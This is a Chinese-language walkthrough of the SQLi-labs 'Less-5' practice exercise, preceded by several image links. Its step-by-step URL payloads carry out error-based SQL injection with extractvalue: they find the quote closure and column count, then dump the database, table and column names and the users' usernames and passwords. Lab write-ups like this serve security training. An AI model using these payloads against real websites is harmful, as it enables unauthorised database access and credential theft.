








SQL注入 less-5

判断是否存在SQL注入漏洞

?id=1

?id=-1

发现存在SQL注入

判断闭合方式

?id=1\

根据报错信息near ''1\' LIMIT 0,1'可知是’（单引号）闭合

判断字段数

?id=1' order by 3 --+

?id=1' order by 4 --+

根据报错信息可知，字段数为3

判断回显位置

?id=-1' union select 1,2,3 --+

发现没有显示报错位置，但在上一步判断字段数的时候有回显，所以可以选择基于报错注入

判断数据库名

?id=-1' and extractvalue(1,concat(0x7e,database())) --+

得到数据库名为security

判断表名

?id=-1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'))) --+

判断字段名

这里以users表为例

?id=-1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'))) --+

爆数据

?id=-1' and extractvalue(1,concat(0x7e,(select group_concat(username,'-',password) from users))) --+

